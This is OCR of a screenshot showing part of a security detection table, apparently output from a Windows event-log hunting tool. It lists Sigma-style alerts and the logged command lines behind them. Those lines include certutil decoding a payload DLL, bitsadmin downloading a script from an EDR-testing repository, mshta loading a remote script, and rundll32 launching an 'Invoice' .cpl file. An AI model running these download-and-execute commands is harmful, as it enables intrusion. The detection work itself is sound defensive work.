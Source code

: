     │                     │    │                                          │                                │                                                    │ out.exe",0,true);}                                 │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:11:17 │ 1  │ ‣ Suspicious Rundll32 Activity           │ "MSEDGEWIN10"                  │ C:\Windows\System32\rundll32.exe                   │ "C:\Windows\system32\rundll32.exe" Shell32.dll,Con │
    │                     │    │                                          │                                │                                                    │ trol_RunDLL "C:\Users\IEUser\Downloads\Invoice@058 │
    │                     │    │                                          │                                │                                                    │ 2.cpl",                                            │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:11:17 │ 1  │ ‣ Suspicious Call by Ordinal             │ "MSEDGEWIN10"                  │ C:\Windows\SysWOW64\rundll32.exe                   │ "C:\Windows\SysWOW64\rundll32.exe" "C:\Windows\Sys │
    │                     │    │                                          │                                │                                                    │ WOW64\shell32.dll",#44 "C:\Users\IEUser\Downloads\ │
    │                     │    │                                          │                                │                                                    │ Invoice@0582.cpl",                                 │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:32:58 │ 1  │ ‣ Suspicious Certutil Command            │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ cmd /c certutil -f -decode fi.b64 AllTheThings.dll │
    │                     │    │                                          │                                │                                                    │                                                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:32:59 │ 1  │ ‣ Suspicious Certutil Command            │ "MSEDGEWIN10"                  │ C:\Windows\System32\certutil.exe                   │ certutil -f -decode fi.b64 AllTheThings.dll        │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:03 │ 1  │ ‣ Bitsadmin Download                     │ "MSEDGEWIN10"                  │ C:\Windows\System32\bitsadmin.exe                  │ bitsadmin.exe /transfer "JobName" https://raw.gith │
    │                     │    │                                          │                                │                                                    │ ubusercontent.com/op7ic/EDR-Testing-Script/master/ │
    │                     │    │                                          │                                │                                                    │ Payloads/CradleTest.txt "C:\Windows\system32\Defau │
    │                     │    │                                          │                                │                                                    │ lt_File_Path.ps1"                                  │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:18 │ 1  │ ‣ Mshta JavaScript Execution             │ "MSEDGEWIN10"                  │ C:\Windows\System32\mshta.exe                      │ mshta.exe javascript:a=GetObject("script:https://r │